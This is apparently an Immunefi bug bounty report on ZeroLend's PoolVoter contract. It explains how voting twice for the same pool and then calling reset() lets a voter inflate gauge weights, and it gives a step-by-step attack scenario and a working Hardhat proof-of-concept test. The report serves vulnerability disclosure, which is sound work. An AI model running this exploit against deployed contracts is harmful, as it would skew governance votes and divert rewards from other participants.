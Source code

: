 
# Votes manipulation in PoolVoter

Submitted on Mar 4th 2024 at 18:33:40 UTC by @DuckAstronomer for [Boost | ZeroLend](https://immunefi.com/bounty/zerolend-boost/)

Report ID: #29012

Report type: Smart Contract

Report severity: High

Target: https://github.com/zerolend/governance

Impacts:
- Manipulation of governance voting result deviating from voted outcome and resulting in a direct change from intended effect of original results

## Description
## Vulnerability Details
**Affected asset**: https://github.com/zerolend/governance/blob/main/contracts/voter/PoolVoter.sol

`PoolVoter` contract allows to vote for the Gauge for anyone who has voting power by staking in the `VestedZeroNFT`.

The `vote()` function allows to specify pools associated with gauges and their respective weights.

```
function vote(
    address[] calldata _poolVote,
    uint256[] calldata _weights
) external {}
```

However, a crucial flaw exists as the function fails to check for repeated pools in the `_poolVote` array. Moreover, it only considers the last weight if the same pool is utilized, as seen here - https://github.com/zerolend/governance/blob/main/contracts/voter/PoolVoter.sol#L117.

```
if (_gauge != address(0x0)) {
    _updateFor(_gauge);
    _usedWeight += _poolWeight;
    totalWeight += _poolWeight;
    weights[_pool] += _poolWeight;
    poolVote[_who].push(_pool);
    votes[_who][_pool] = _poolWeight;  // !!!
}
```

When a voter calls the `reset()` function to retrieve their voting power back and vote for another gauge, only the last weight is taken into account in case of repeated pool voting.

As a result, the voter recovers the full voting power. Yet `totalWeight` and `weights[_pool]` are decreased only by the last element from the `_weights` array passed to the `vote()`.

```
uint256 _votes = votes[_who][_pool];

if (_votes > 0) {
    _updateFor(gauges[_pool]);
    totalWeight -= _votes;
    weights[_pool] -= _votes;
    votes[_who][_pool] = 0;
}
```

**Attack scenario**:
1. The attacker possesses a voting power of `19.01 ether`.
2. They invoke `vote()` to vote for the same gauge with the following parameters:
    - _poolVote = [gauge, gauge]
    - _weights = [19 ether, 1e8]
3.  Further they call `reset()`, but `weights[_pool]` and `totalWeight` are only decreased by `1e8`.
4. The attacker retains the full `19.01 ether` voting power. But `weights[_pool]` and `totalWeight` are now increased by `19 ether`.
5. By repeating steps 2-3 in a loop many times, the attacker can consolidate the majority of votes for their chosen gauge, and all rewards will be distributed to it.
6. By repeating steps 2-3 for **100** times, it's tantamount to having `1900 ether` voting power.


## Proof of Concept
To run the Poc put it's code to the `governance-main/test/PoolVoter.poc.ts` file, generate random private key, and issue the following command:

```
WALLET_PRIVATE_KEY=0x... NODE_ENV=test npx hardhat test test/PoolVoter.poc.ts --config hardhat.config.ts --network hardhat
```

```
import { expect } from "chai";
import { loadFixture } from "@nomicfoundation/hardhat-network-helpers";
import { SignerWithAddress } from "@nomicfoundation/hardhat-ethers/signers";
import {
  GaugeIncentiveController,
  OmnichainStaking,
  Pool,
  PoolVoter,
  StakingBonus,
  TestnetERC20,
  VestedZeroNFT,
  ZeroLend,
} from "../typechain-types";
import { e18 } from "./fixtures/utils";
import { deployVoters } from "./fixtures/voters";

// Put inside governance-main/test/PoolVoter.poc.ts

// Run as:
// WALLET_PRIVATE_KEY=0x... NODE_ENV=test npx hardhat test test/PoolVoter.poc.ts --config hardhat.config.ts --network hardhat

describe.only("PoolVoter Immunefi Boost", () => {
  let ant: SignerWithAddress;
  let now: number;
  let omniStaking: OmnichainStaking;
  let poolVoter: PoolVoter;
  let reserve: TestnetERC20;
  let stakingBonus: StakingBonus;
  let vest: VestedZeroNFT;
  let pool: Pool;
  let aTokenGauge: GaugeIncentiveController;
  let zero: ZeroLend;

  beforeEach(async () => {
    const deployment = await loadFixture(deployVoters);
    ant = deployment.ant;
    now = Math.floor(Date.now() / 1000);
    omniStaking = deployment.governance.omnichainStaking;
    poolVoter = deployment.poolVoter;
    reserve = deployment.lending.erc20;
    stakingBonus = deployment.governance.stakingBonus;
    vest = deployment.governance.vestedZeroNFT;
    zero = deployment.governance.zero;
    pool = deployment.lending.pool;
    aTokenGauge = deployment.aTokenGauge;

    // deployer should be able to mint a nft for another user
    await vest.mint(
      ant.address,
      e18 * 20n, // 20 ZERO linear vesting
      0, // 0 ZERO upfront
      1000, // linear duration - 1000 seconds
      0, // cliff duration - 0 seconds
      now + 1000, // unlock date
      true, // penalty -> false
      0
    );

    // stake nft on behalf of the ant
    await vest
      .connect(ant)
      ["safeTransferFrom(address,address,uint256)"](
        ant.address,
        stakingBonus.target,
        1
      );

    // there should now be some voting power for the user to play with
    // ant voting power is ~ 19 ether
    expect(await omniStaking.balanceOf(ant.address)).lessThan(e18 * 20n);
  });

  it("ant fraudulently increases his voting power by 100x", async function () {
    expect(await poolVoter.totalWeight()).eq(0);
    for (let i=0; i < 101; i++) {
      // Vote for the same pool 2 times but with different weights
      // 19 ether and 1e8 wei
      await poolVoter.connect(ant).vote(
        [reserve.target, reserve.target],
        [19n*e18, 1e8]
      );
      // Reset() call resets only 1e8 wei votes.
      // However, 19 ether votes remains untouched in totalWeight().
      // ant can has voting power of 19 ether again and again.
      // https://github.com/zerolend/governance/blob/main/contracts/voter/PoolVoter.sol#L67
      // https://github.com/zerolend/governance/blob/main/contracts/voter/PoolVoter.sol#L61-L63
      await poolVoter.connect(ant).reset();
    }
    expect(await poolVoter.totalWeight()).greaterThan(e18 * 19n * 100n);
  });
});
```